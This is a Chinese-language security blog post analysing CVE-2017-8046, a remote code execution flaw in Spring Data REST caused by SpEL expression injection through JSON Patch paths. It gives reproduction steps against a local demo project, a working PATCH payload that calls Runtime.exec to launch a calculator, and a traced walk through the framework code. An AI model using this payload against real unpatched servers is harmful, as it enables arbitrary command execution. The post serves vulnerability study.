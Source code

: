 ```yaml
---
title: "Spring 漏洞总结"
description: 读书时的碎碎念
date: 2019-02-24T21:14:23+08:00
tags:
    - Security
Categories:
    - Security
---
```




![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-24/974875.png)



# Spring Data REST | RCE | CVE-2017-8046

## 漏洞简析

SpEL是独立于spring容器的一个可执行模块。 它使用SpelExpressionParser把字符串解析成表达式，当其中一个方法获取到值之后，表达式就会被执行，getValueType或者setValue会被调用：

```
Expression expr = expressionParser.parseExpression(stringScript);
expr.getValue(); //Execute the code in stringScript
```

通常，SpEL仅限于内部使用并且stringScript会被程序完全控制。 但如果 stringScript是用户可控的话，那么攻击者就可以在有漏洞的服务器上执行任意代码。

即：

```
String stringScript = "T(java.lang.Runtime).getRuntime().exec("+cmd+").x";
```

之后cmd就被执行。

这就是这个Spring Data REST漏洞的基本原理，Spring Data REST把远程输入的数据解析成SpEL表达式，并且将其解析。

## 漏洞复现

使用的项目为 `https://github.com/spring-guides/gs-accessing-data-rest.git` 里面的complete，直接用IDEA导入，并修改pom.xml中版本信息为漏洞版本。 1.5.6.RELEASE，然后导入pom.xml

1. 运行项目

2. 新建一个people对象

   ```
   POST /people HTTP/1.1
   Host: localhost:8080
   User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
   Connection: close
   Content-type: application/json
   Content-Length: 32
   
   {"firstName":"test1","lastName":"test2"}
   ```

3. 发送payload

   ```
   PATCH /people/1 HTTP/1.1
   Host: localhost:8080
   User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Connection: close
   Content-Type: application/json-patch+json
   Content-Length: 256
   
   [{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{99,97,108,99}))/lastName", "value": "test" }]
   ```

4. 效果

   ![img](http://77sera.oss-cn-beijing.aliyuncs.com/19-02-24/002851.png)

## 漏洞分析

第一次分析Java框架的洞。

payload:

> [{ “op”: “replace”, “path”: “T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{99,97,108,99}))/lastName”, “value”: “vulhub” }]

首先，客官们先来看看这里

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/277567.png)

这是函数入口，前三行检测header头和http方法的正确性。

到了return处，会执行一个 applyPatch()方法，跟进

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/277722.png)

跟进getPatchOperation方法后会发现，它会调用convert方法，跟进

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/278149.png)

这里可以看到，payload中的op参数值为”replace”，因此实例化了ReplaceOperation类

并且入参的path和value是payload中的参数值。

因此，实际上getPatchOperation方法最后会返回一个XXXOperation类，然后再调用Patch类的apply方法，跟进

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/278773.png)

我们可以看到 31行调用了 ReplaceOperation的perform方法，跟进

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/278975.png)

此处调用了setValueOnTarget方法，跟进

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/279199.png)

setValue方法，但是此时Spel表达式的值已经被替换成了我们的payload，继续跟进

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/279308.png)

setValue的实现 到了spring-expression包来了，最终在spring-expression包里解析执行了我们的代码，弹出了计算器。

解析运行的原理在之前的简析里有分析。 具体SpEL实现，我也很好奇！这块可以期待我们在Spring框架的SpEL处再见！

谢谢各位客官。